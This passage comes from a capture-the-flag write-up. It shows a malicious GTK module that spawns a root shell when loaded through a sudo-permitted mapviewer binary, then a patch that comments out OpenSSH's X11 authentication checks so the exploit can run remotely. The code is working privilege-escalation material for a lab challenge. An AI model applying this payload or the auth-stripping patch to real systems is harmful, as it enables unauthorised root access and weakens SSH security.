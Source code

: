 The final payload is just this:

```c
#include <stdlib.h>
void gtk_module_init() {
	system("/bin/bash");
}
```

```
$ gcc -fPIC -shared -o lib/test.so test.c
$ sudo ./mapviewer --gtk-module `pwd`/lib/test.so
# whoami
root
```

## 7.<span id="a_part7"/> Remote pwnage


Now if we try remote:

```
$ ssh -Y  -i ident customer01@maps-as-a-service.challenges.adversary.zone -p 4141
customer01@maps-as-a-service:~$ sudo mapviewer --gtk-module /tmp/libtest.so
Unable to init server: Could not connect: Connection refused

(mapviewer:2577): Gtk-WARNING **: 11:48:28.377: cannot open display: 
customer01@maps-as-a-service:~$
```

It seems that the code running the module runs after the connection to an X server. How can we get the connection to succeed? Let's "remove the brakes" from the SSH client with this patch:



```diff
diff --git a/channels.c b/channels.c
index e4917f3..13725d6 100644
--- a/channels.c
+++ b/channels.c
@@ -1169,24 +1169,30 @@ x11_open_helper(struct ssh *ssh, struct sshbuf *b)
                return 0;
 
        /* Check if authentication protocol matches. */
+       /*
        if (proto_len != strlen(sc->x11_saved_proto) ||
            memcmp(ucp + 12, sc->x11_saved_proto, proto_len) != 0) {
                debug2("X11 connection uses different authentication protocol.");
                return -1;
        }
+       */
        /* Check if authentication data matches our fake data. */
+       /*
        if (data_len != sc->x11_fake_data_len ||
            timingsafe_bcmp(ucp + 12 + ((proto_len + 3) & ~3),
                sc->x11_fake_data, sc->x11_fake_data_len) != 0) {
                debug2("X11 auth data does not match fake data.");
                return -1;
        }
+       */
        /* Check fake data length */
+       /*
        if (sc->x11_fake_data_len != sc->x11_saved_data_len) {
                error("X11 fake_data_len %d != saved_data_len %d",
                    sc->x11_fake_data_len, sc->x11_saved_data_len);
                return -1;
        }
+       */
```